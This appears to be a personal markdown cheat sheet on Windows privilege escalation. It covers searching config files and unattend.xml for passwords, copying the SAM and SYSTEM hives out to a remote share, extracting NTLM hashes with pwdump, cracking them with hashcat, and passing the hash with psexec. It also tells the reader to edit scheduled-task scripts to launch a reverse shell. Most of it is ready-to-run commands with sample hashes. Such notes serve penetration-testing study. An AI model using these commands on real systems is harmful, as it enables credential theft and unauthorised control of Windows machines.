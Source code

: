 #### config files
config files can contain creds, unattend.xml is an example of this. some useful commands to manually enumerate config files

recursively search for files in current directory with "pass" in the *name* or ending in ".config"
```
> dir /s *pass* == *.config
```
recursively search for files in current directory that *conntain* the word password and also end in .xml, .ini, or .txt
```
> findstr /si password *.xml *.ini *.txt
```
always check unattend.xml
```
> type C:\path\to\unattend.xml
# echo "random_string" | base64 -d
```

#### SAM 
windows stores password hashes in the Security Account Manager
the passwords are encrypted with a key which can be found in a file named SYSTEM
if you can read both SAM and SYSTEM you can extract hashes
these files are located in System32\config but are locked 
backups may exist in System32\config\RegBack
if files exist (found with winpeas) copy to local machine
```
> copy C:\path\to\SAM/SYSTEM \\IP.HERE
```
and run pwdump to extract hashes
```
# python2 pwdump.py SYSTEM SAM
```
output example with notation:
```
USERNAME:SID:LM HASH(deprecated,empty string): NTLM HASH
user:1003:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1004:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```
NTLM hash starting with 31d6 indicates no password or disabled account
crack with hashcat
```
# hashcat -m 1000 -force COPIEDADMINHASH /path/to/wordlist.txt
```

##### pass the hash
windows accepts hashes 
```
# ./psexec.py DOMAIN/USER@IP -hashes LM_HASH:NTLM_HASH
# ./psexec.py admin@192.168.0.205 -hashes aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da
```

# scheduled tasks
enumerating tasks is very manual
list all tasks
```
> schtasks /query /fo LIST /v

PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
often need to rely on other clues, scripts or log files which indicate scheduled tasks. if script is found edit to point to reverse shell backup script first.
